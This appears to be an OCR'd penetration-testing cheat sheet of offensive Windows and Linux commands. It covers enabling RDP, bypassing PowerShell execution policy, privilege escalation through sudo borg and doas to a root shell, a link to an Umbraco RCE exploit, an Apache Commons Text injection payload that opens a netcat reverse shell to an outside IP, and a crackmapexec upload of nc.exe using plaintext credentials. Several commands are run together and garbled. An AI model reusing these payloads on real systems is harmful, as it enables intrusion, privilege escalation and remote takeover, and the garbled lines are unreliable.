 ```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\TerminalServer' -name "fDenyTSConnections" -value 0 
Enable-NetFirewallRule -DisplayGroup "RemoteDesktop"
```
## Powershell EP Bypass
```
powershell -ep bypass  
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope Process
```
## CREATE A SERVICE IN WINDOWS
```
C:\Windows\System32\sc.execreateSchedulerbinPath= "C:\Scheduler\scheduler.exe"

C:\Windows\System32\sc.exe delete Scheduler
```
## BORG
```
sudo /usr/bin/borglist/opt/borgbackup

sudo /usr/bin/borg extract /opt/borgbackup::home (look for borgbackup file and you can use list command to list archives and then
add ::archivename to view files in archives)

sudo /usr/bin/borg extract --stdout /opt/borgbackup::home (to read files)
```
## DOAS SUID
```
/etc/doas.conf  
/var/local/etc/doas.conf  
doas service apache24 onestart  
/usr/local/bin/doas -u root whoami 
/usr/local/bin/doas -u root /bin/sh
```
## UMBRACO 7: (RCE)
https://github.com/Jonoans/Umbraco-RCE 
## APACHE COMMON TEXT SSTI
```
$%7Bscript:javascript:java.lang.Runtime.getRuntime().exec('busybox+nc+192.168.45.166+4444+-e+/bin/sh')%7D
```
## SHAREPOINT
```
/usr/share/seclists/Discovery/Web-Content/CMS/sharepoint.txt
```
## CRACKMAPEXEC UPLOAD FILE:
```
proxychains crackmapexec mssql 10.10.139.148 -u sql_svc -p Dolphin1 --put-file /usr/share/windows-resources/binaries/nc.exe 'C:\users\public\documents\nc.exe'
```